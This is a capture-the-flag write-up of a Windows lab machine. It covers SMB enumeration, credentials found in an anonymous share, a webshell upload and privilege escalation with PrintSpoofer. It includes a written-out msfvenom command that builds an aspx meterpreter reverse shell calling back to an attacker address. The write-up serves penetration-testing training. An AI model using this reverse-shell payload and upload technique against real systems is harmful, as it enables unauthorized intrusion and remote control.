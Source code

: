 ## Overview 
This is a windows machine. You wil learn basic metasploit and basic pentest windows. 

## Write up 

## Enumeration 
Run `nmap` to scan the services. This server run web with 2 port (80, 49663) and smb share (445) 
  
![image](https://user-images.githubusercontent.com/22276823/147270203-dd3ed196-05b8-418e-87a5-b6125344c755.png) 
 
Scan smb vuln 
 
![image](https://user-images.githubusercontent.com/22276823/147270599-0585d73d-b8e5-4598-963d-5d2ea2a6df67.png) 

Connect to smb share with anonymous account 
 
![image](https://user-images.githubusercontent.com/22276823/147270831-ccae3482-8ecf-450a-aace-07b0a3d17c7e.png) 
 
This server share folder `nt4wrksv`. Connect this and get `passwords.txt` file 

![image](https://user-images.githubusercontent.com/22276823/147271108-965e4cf6-13d5-4c4d-9786-74710e8e315f.png) 

Check this file and i got 2 user, pass 

![image](https://user-images.githubusercontent.com/22276823/147271398-dc1a60bf-5204-4dd4-bcc2-6b2925fca042.png) 

Check permission on server. I known i can upload with anonymous account 

![image](https://user-images.githubusercontent.com/22276823/147271520-b2c2a934-ab09-490d-9be1-25a7a1c72d6f.png) 

## Exploit 

Because this server run on windows. I have create the reverse shell aspx. But it's seem like this server just print source code without run it. 
  
![image](https://user-images.githubusercontent.com/22276823/147272100-2d1ff816-a376-488a-a17c-3831a0375f0c.png) 

Let's try with webshell and get user flag

![image](https://user-images.githubusercontent.com/22276823/147272435-6507deb5-a4dd-41e2-83c6-cdcd4adb165f.png) 
 
To get reverse shell, i used metasploit to create reverse shell 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.9.3.188 lport=4444 -f aspx -o shell.aspx 
``` 
 
Upload to server and get reverse shell 

![image](https://user-images.githubusercontent.com/22276823/147272992-34b30903-44ae-4e13-8848-f593952350d7.png)  
 
![image](https://user-images.githubusercontent.com/22276823/147273229-1da03fdc-dccc-42fc-8e41-e67de694b6ed.png) 
 
Check privileges 
 
![image](https://user-images.githubusercontent.com/22276823/147273332-b533de06-f26f-436d-9641-93987775ffb6.png) 
 
After searching google. I used [Juicy Potato](https://github.com/ohpe/juicy-potato) but it doesn't work. Continue research, I found another way. This way exploit [PrintSpooler](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) service. Download execution file and put to server 

![image](https://user-images.githubusercontent.com/22276823/147274385-f5fb719c-4212-436e-a615-27e412b6de8e.png) 

![image](https://user-images.githubusercontent.com/22276823/147274580-47c6182d-c94e-4084-bbd3-96bdf9a3f40b.png) 

Run executable file and get root flag

![image](https://user-images.githubusercontent.com/22276823/147274689-f92b73d2-602b-4490-b0b0-6ccad6460ea8.png) 

![image](https://user-images.githubusercontent.com/22276823/147274768-87d5c338-f702-4f34-abd0-62792c594927.png) 

**Resources** 
1. https://github.com/itm4n/PrintSpoofer  
2. https://github.com/ohpe/juicy-potato  
3. https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505  
4. https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/  









